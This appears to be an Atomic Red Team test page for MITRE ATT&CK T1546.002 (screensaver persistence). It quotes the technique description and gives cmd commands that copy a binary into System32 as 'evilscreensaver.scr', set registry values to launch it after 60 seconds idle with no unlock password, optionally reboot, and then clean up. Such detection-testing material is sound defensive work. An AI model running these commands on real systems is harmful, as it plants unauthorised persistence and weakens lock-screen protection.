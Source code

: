 # T1546.002 - Event Triggered Execution: Screensaver

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1546/002)

<blockquote>Adversaries may establish persistence by executing malicious content triggered by user inactivity. Screensavers are programs that execute after a configurable time of user inactivity and consist of Portable Executable (PE) files with a .scr file extension.(Citation: Wikipedia Screensaver) The Windows screensaver application scrnsave.scr is located in <code>C:\Windows\System32\</code>, and <code>C:\Windows\sysWOW64\</code>  on 64-bit Windows systems, along with screensavers included with base Windows installations.

The following screensaver settings are stored in the Registry (<code>HKCU\Control Panel\Desktop\</code>) and could be manipulated to achieve persistence:

- <code>SCRNSAVE.exe</code> - set to malicious PE path
- <code>ScreenSaveActive</code> - set to '1' to enable the screensaver
- <code>ScreenSaverIsSecure</code> - set to '0' to not require a password to unlock
- <code>ScreenSaveTimeout</code> - sets user inactivity timeout before screensaver is executed

Adversaries can use screensaver settings to maintain persistence by setting the screensaver to run malware after a certain timeframe of user inactivity.(Citation: ESET Gazer Aug 2017)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Set Arbitrary Binary as Screensaver](#atomic-test-1---set-arbitrary-binary-as-screensaver)

<br/>

## Atomic Test #1 - Set Arbitrary Binary as Screensaver

This test copies a binary into the Windows System32 folder and sets it as the screensaver so it will execute for persistence. Requires a reboot and logon.

**Supported Platforms:** Windows

**auto_generated_guid:** 281201e7-de41-4dc9-b73d-f288938cbb64

#### Inputs:

| Name         | Description                                                                                 | Type    | Default Value                           |
| ------------ | ------------------------------------------------------------------------------------------- | ------- | --------------------------------------- |
| input_binary | Executable binary to use in place of screensaver for persistence                            | path    | C:&#92;Windows&#92;System32&#92;cmd.exe |
| reboot       | Set to non-zero value if you want the test to reboot the system so that changes take effect | integer | 0                                       |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg export "HKEY_CURRENT_USER\Control Panel\Desktop" %userprofile%\backup.reg
copy #{input_binary} "%SystemRoot%\System32\evilscreensaver.scr"
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveActive /t REG_SZ /d 1 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaveTimeout /t REG_SZ /d 60 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v ScreenSaverIsSecure /t REG_SZ /d 0 /f
reg.exe add "HKEY_CURRENT_USER\Control Panel\Desktop" /v SCRNSAVE.EXE /t REG_SZ /d "%SystemRoot%\System32\evilscreensaver.scr" /f
if #{reboot} NEQ 0 shutdown /r /t 0
```

#### Cleanup Commands:

```cmd
reg import %userprofile%\backup.reg
del %userprofile%\backup.reg
del %SystemRoot%\System32\evilscreensaver.scr
```

<br/>
